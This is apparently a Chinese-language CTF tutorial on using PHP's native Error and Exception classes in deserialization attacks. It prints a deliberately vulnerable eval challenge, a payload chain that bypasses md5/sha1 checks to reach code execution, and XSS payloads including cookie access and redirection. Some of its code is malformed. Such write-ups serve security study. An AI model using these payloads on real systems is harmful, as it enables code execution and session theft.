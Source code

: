 # ERROR类和exception类

顾名思义，error类是php中的报错类


exception为php中的异常类。


因为它内置有一个`__toString()`的方法，常用于PHP 反序列化中。


接下来介绍用法（欢迎补充姿势）


## 1 .md5()和sha1()绕过


md5函数的绕过应该大家都清楚，最常用的方法是null==null。


也就是传参的时候变为数组，然后使php解析报错


那么这里其实原理很为类似


`Error` 是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。


* `Error::__construct`— 初始化 error 对象

* `Error::getMessage`— 获取错误信息

* `Error::getPrevious`— 返回先前的 Throwable

* `Error::getCode`— 获取错误代码

* `Error::getFile`— 获取错误发生时的文件

* `Error::getLine`— 获取错误发生时的行号

* `Error::getTrace`— 获取调用栈（stack trace）

* `Error::getTraceAsString`— 获取字符串形式的调用栈（stack trace）

* `Error::__toString`— error 的字符串表达

* `Error::__clone`— 克隆 error

`Exception` 是所有异常的基类，该类是在PHP 5.0.0 中开始引入的。


* `Exception::__construct`— 异常构造函数

* `Exception::getMessage`— 获取异常消息内容

* `Exception::getPrevious`— 返回异常链中的前一个异常

* `Exception::getCode`— 获取异常代码

* `Exception::getFile`— 创建异常时的程序文件名称

* `Exception::getLine`— 获取创建的异常所在文件中的行号

* `Exception::getTrace`— 获取异常追踪信息

* `Exception::getTraceAsString`— 获取字符串类型的异常追踪信息

* `Exception::__toString`— 将异常对象转换为字符串

* `Exception::__clone`— 异常克隆

两个函数均有__tostring类


稍微解释下：（暗示例子）


```php
<?php
error_reporting(0);
class SYCLOVER 
{        
    public $syc;    
    public $lover;       
    public function __wakeup()      
    {       
        if( 
            ($this->syc != $this->lover) 
            && (md5($this->syc) === md5($this->lover)) 
            && (sha1($this->syc)=== sha1($this->lover)) 
        )      
        {                          
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match))           
            {
                eval($this->syc);
            }
            else 
            {               
                die("Try Hard !!");           
            }                   
        }    
    }
}
if (isset($_GET['great'])) 
{    
    unserialize($_GET['great']);
} 
else 
{    
    highlight_file(__FILE__);
}
?>
```



(看到这个syclover就想到那张大脸。。。）


比较典型的反序列化。


想要达成代码执行必须先通过上面的md5和sha1的比较匹配。


由于是因为在类中，数组是用不了的。


想想__tostring的调用方法：


当类被当成字符串时调用


于是我们构造一条链


unserilize->__wakeup()->error()类->__tostring->eval()函数


```php
<?php
class SYCLOVER 
{ 
    public $syc; 
    public $lover; $str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
} 
$a=new Error($str,1); 
$b=new Error($str,2);//原生类用在这里 
$c = new SYCLOVER(); 
$c->syc = $a; 
$c->lover = $b;
echo(urlencode(serialize($c)));
?>
```



这就是最后的payload


这里应该是能看懂


ps:`?>`是因为ERROR报错类会跳出一长串不可预知的报错信息，需要命令执行的话需要用`?>`去闭合掉爆出来的杂七杂八的信息。`~`是取反符号绕过过滤。（理解一下，和异或很类似）。


`eval("...Error: ?><?php payload ?>")`


## 2.PHP7.0下的XSS


```php
<?php
$a = unserialize($_GET['whoami']);
echo $a;
?>
```



上面的代码只有一个简单的反序列化，并没有给出类，这时候一般都会去思考一下原生类。


```php
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```



然后报错把插入的XSS代码执行。


之后一般会用到XSS里面的知识模块例如：



`<script>alert("内容")</script>`    使用`<script>`标签，弹出消息对话框


`<body onload=alert("内容")>`   使用`<body>`标签，弹出消息对话框


`<a href=“”onclick=alert(“内容”)>链接文字</a>` 使用`<a>`标签，显示可点击链接，点击链接后弹出消息对话框


`<imgsrc=WrongIP onerror=alert("内容")>`   使用`<img>`标签，弹出消息对话框


`<script>window.location.href="网站地址"</script>`  使用`<script>`标签，重定向页面


`<script>alert=(document.cookie)</script>`   使用`<script>`标签，cookie获取


等等


例题可以看这个：（网上蛮多的我就不放了）
